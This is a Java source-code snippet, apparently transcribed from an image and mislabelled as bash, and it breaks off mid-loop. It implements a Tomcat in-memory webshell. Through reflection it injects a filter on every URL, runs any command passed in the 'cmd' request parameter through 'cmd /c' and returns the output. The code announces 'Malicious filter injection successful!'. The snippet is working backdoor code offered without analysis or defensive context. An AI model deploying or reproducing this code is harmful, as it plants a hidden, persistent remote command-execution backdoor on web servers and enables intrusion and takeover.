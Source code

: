 ```bash
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigsField.setAccessible(true);
    Map filterConfigs = (Map) filterConfigsField.get(standardContext);
    String filterName = getRandomString();
    if (filterConfigs.get(filterName) == null) {
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) {
            }

            @Override
            public void destroy() {
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                String cmd = httpServletRequest.getParameter("cmd");
                {
                    InputStream in = Runtime.getRuntime().exec("cmd /c " + cmd).getInputStream();
                    Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.setCharacterEncoding("GBK");
                    PrintWriter out = servletResponse.getWriter();
                    out.println(output);
                    out.flush();
                    out.close();
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }
        };
        FilterDef filterDef = new FilterDef();
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());
        filterDef.setFilter(filter);
        standardContext.addFilterDef(filterDef);
        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName(filterName);
        filterMap.addURLPattern("/*");
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        filterConfigs.put(filterName, applicationFilterConfig);
        out.print("[+]&nbsp;&nbsp;&nbsp;&nbsp;Malicious filter injection successful!<br>[+]&nbsp;&nbsp;&nbsp;&nbsp;Filter name: " + filterName + "<br>[+]&nbsp;&nbsp;&nbsp;&nbsp;Below is a list displaying filter names and their corresponding URL patterns:");
        out.println("<table border='1'>");
        out.println("<tr><th>Filter Name</th><th>URL Patterns</th></tr>");
        List<String[]> allUrlPatterns = new ArrayList<>();
        for (Object filterConfigObj : filterConfigs.values()) {
            if (filterConfigObj instanceof ApplicationFilterConfig) {
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) filterConfigObj;
```